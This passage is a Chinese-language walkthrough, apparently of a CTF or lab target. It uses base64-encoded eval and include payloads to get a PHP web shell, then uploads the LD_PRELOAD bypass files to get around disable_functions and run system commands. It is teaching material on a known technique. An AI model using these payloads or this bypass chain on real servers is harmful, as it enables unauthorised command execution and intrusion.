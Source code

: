 构造如下拿到shell：

```php
/?Ginkgo=ZXZhbCgkX1BPU1Rbd2hvYW1pXSk7
# 即eval($_POST[whoami]); 
```

![image-20210209160855754](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a1ce2d8d7724361d51fff093671dc2e214e21f59.png)

但是无法执行命令：

![image-20210209161231346](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-531e58814328504160793a386761b0da8b0e7b64.png)

怀疑是设置了disable\_functions，查看phpinfo：

```php
/?Ginkgo=cGhwaW5mbygpOw==
# 即phpinfo();
```

发现确实设置了disable\_functions：

![image-20210209161056356](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c6c75877a1d8f77a40559ca8af2da7634bd94d0f.png)

下面尝试绕过。

需要去yangyangwithgnu 大佬的github上下载该项目的利用文件：[https://github.com/yangyangwithgnu/bypass\_disablefunc\_via\_LD\_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

本项目中有这几个关键文件：

![image-20210209161852114](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e842f4668d570e09329be06a25b59cec1a6635a8.png)

- bypass\_disablefunc.php：一个用来执行命令的 webshell。
- bypass\_disablefunc\_x64.so或bypass\_disablefunc\_x86.so：执行命令的共享对象文件，分为64位的和32位的。
- bypass\_disablefunc.c：用来编译生成上面的共享对象文件。

> 对于bypass\_disablefunc.php，权限上传到web目录的直接访问，无权限的话可以传到tmp目录后用include等函数来包含，并且需要用 GET 方法提供三个参数：
> 
> - cmd 参数：待执行的系统命令，如 id 命令。
> - outpath 参数：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
> - sopath 参数：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass\_disablefunc\_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。

首先，想办法将 bypass\_disablefunc.php 和 bypass\_disablefunc\_x64.so 传到目标有权限的目录中：

![image-20210209162040530](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-61c7f06e5a0d6695fd67c96a7d14bd89f3593197.png)

然后将bypass\_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

```php
/?Ginkgo=aW5jbHVkZSgiL3Zhci90bXAvYnlwYXNzX2Rpc2FibGVmdW5jLnBocCIpOw==&cmd=id&outpath=/tmp/outfile123&sopath=/var/tmp/bypass_disablefunc_x64.so
# include("/var/tmp/bypass_disablefunc.php");
```

如下所示，成功执行命令：

